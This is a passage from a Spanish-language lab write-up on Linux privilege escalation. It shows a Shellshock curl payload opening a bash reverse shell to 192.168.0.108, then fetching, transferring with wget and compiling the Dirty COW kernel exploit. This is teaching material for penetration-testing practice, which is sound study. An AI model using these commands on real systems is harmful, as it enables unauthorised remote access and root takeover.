 ![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled 4.png)

Ahora se puede obtener una reverse shell:

```bash
{% raw %}
curl -s "http://192.168.0.106/cgi-bin/test" 
-H "User-Agent: () { :; }; echo; bash -i >& /dev/tcp/192.168.0.108/4646 0>&1"
{% endraw %}
```

![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled 5.png)

Y como se puede ver, al ver la versión del sistema operativo y del kernel, se ve son antiguas versiones antiguas:

![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled 6.png)

Al buscar vulnerabilidades presentes en  esta versión de kernel con searchsploit, se encuentran muchas y entre ellas, la vuln “Dirty Cow” en la que se puede explotar un Race Condition para escalar privilegios.

![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled 7.png)

- ¿Qué es Dirty Cow?
    
    Dirty COW es una vulnerabilidad de seguridad informática del kernel de Linux que afectó a todos los sistemas operativos basados en Linux, incluidos los dispositivos Android, que usaban versiones anteriores del kernel de Linux creadas antes de 2018.
    

Se moverá este script en C a la máquina local y se cambiará su nombre:

```bash
searchsploit -m 40839
mv 40839.c dirty.c
```

Este script ahora se debe mover a la máquina víctima para compilarlo con gcc:

```bash
# Máquina local
python -m http.server

----
wget http://192.168.0.108/dirty.c

```

Para ver cómo se compila el script, se puede abrir el script y filtrar por gcc:

```bash
cat dirty.c | grep gcc
gcc -pthread dirty.c -o dirty -lcrypt
```

![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled 8.png)
